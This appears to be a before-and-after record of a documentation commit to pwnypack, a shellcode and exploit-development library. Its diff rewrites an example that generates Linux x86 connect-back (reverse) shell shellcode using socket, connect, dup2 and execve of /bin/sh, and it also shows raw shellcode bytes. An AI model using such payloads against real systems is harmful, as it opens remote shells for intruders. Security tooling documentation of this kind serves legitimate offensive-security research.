

Before and after one commit to edibledinos/pwnypack, a Sphinx documentation site: the page built from docs/pwnypack/shellcode/imperative.rst, in a window 1280 px wide and 900 px high. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Small cleanups and doc fixes.

```diff
--- a/docs/pwnypack/shellcode.rst
+++ b/docs/pwnypack/shellcode.rst
@@ -49,7 +49,7 @@
 - :class:`~pwnypack.shellcode.aarch64.linux.LinuxAArch64Stack`
 
 Specialized classes are also provided for X86 and X86_64. The
-*NullSafeMutable* and *NullSafeStack* variants attempt to generate binary
+*MutableNullSafe* and *StackNullSafe* variants attempt to generate binary
 output that does not contain NUL bytes, carriage returns and line feeds.
 
 X86:
--- a/docs/pwnypack/shellcode/imperative.rst
+++ b/docs/pwnypack/shellcode/imperative.rst
@@ -8,7 +8,19 @@
 
 The set of operations you can use in your python function is limited. The
 properties of the environment (syscalls, registers, functions) are exposed
-as if they were magic globals: you cannot shadow them.
+as if they were magic globals: you cannot shadow them. From your shellcode
+generator you can call syscalls and other primitives of the environment,
+assign values to registers, use in-place addition/subtraction on registers
+and assign values to locals (f.e. allocated buffers or data). You can also
+access globals outside the shellcode generator function (f.e. pwnypack's
+packing functions to construct data structures).
+
+If you want to create a re-usable fragment for a commonly used subroutine,
+you can do so by creating a function and decorating it with the
+:func:`~pwnypack.shellcode.translate.fragment` decorator. If such a function
+is called from within a shellcode function it will be translated in the
+context of the current shellcode environment. Do note however that fragments
+are inlined in the resulting shellcode, they're not implemented as functions.
 
 You translate a function by using the environment's
 :meth:`~pwnypack.shellcode.base.BaseEnvironment.translate` class method.
@@ -84,35 +96,50 @@
     '\xe8\x00\x00\x00\x00]\x83\xc5\x1a1\xd21\xc0PU\x8dE\x07P\x89\xe1\x8d]\x07\xb8\x0b\x00\x00\x00\xcd\x80ls -lR\x00/bin/sh\x00'
 
     Combining all that, here's a somewhat larger example that also
-    demonstrates using global and local variables and register aliases to
-    implement a connect-back shell::
+    demonstrates using global and local variables, register aliases and
+    fragments to implement a connect-back shell::
 
         from pwny import *
         import socket
 
-        @sc.LinuxX86Mutable.translate
-        def shell_connect(addr, port, shell=u'/bin/sh'):
+        @sc.fragment
+        def pack_sockaddr_in(addr, port):
             # Prepare the sockaddr_in struct:
-            sockaddr = pack(
+            return pack(
                 'H2s4s8s',
                 socket.AF_INET,
                 P16(port, endian=Target.Endian.big),
                 socket.inet_aton(addr),
-                b'........',  # Doesn't really have to be \0
-                target=target
+                b'........',  # Doesn't really have to be \0.
+                target=target  # This is a fragment, target refers to the
+                               # environment's target attribute.
             )
 
+        @sc.fragment
+        def exec_to_fd(fd, executable):
             # Set up register aliases (for convenience):
             arg0 = SYSCALL_ARG_MAP[0]
             arg1 = SYSCALL_ARG_MAP[1]
+
+            # Call dup2 to connect stdin/out/err to the fd:
+            sys_dup2(fd, 0)
+            arg1 += 1; sys_dup2(arg0, arg1)
+            arg1 += 1; sys_dup2(arg0, arg1)
+
+            # Execute the command:
+            sys_execve(executable, [executable, None], None)
+
+        @sc.LinuxX86Mutable.translate
+        def shell_connect(addr, port, shell=u'/bin/sh'):
+            # Pack the sockaddr_in struct using a fragment:
+            sockaddr = pack_sockaddr_in(addr, port)
+
+            # Set up register alias (for convenience):
             socket_reg = SYSCALL_ARG_MAP[4]
 
             # Prepare socket:
             socket_reg = sys_socket(socket.AF_INET, socket.SOCK_STREAM, socket.IPPROTO_TCP)
             sys_connect(socket_reg, sockaddr, len(sockaddr))
 
-            # Dup2 stdin/out/err to socket and execute shell:
-            sys_dup2(socket_reg, 0)
-            reg_add(arg1, 1); sys_dup2(arg0, arg1)
-            reg_add(arg1, 1); sys_dup2(arg0, arg1)
-            sys_execve(shell, [shell, None], None)
+            # Call the fragment that calls dup2 and execve:
+            exec_to_fd(socket_reg, shell)
```
Also changed, not shown: 3 other files.
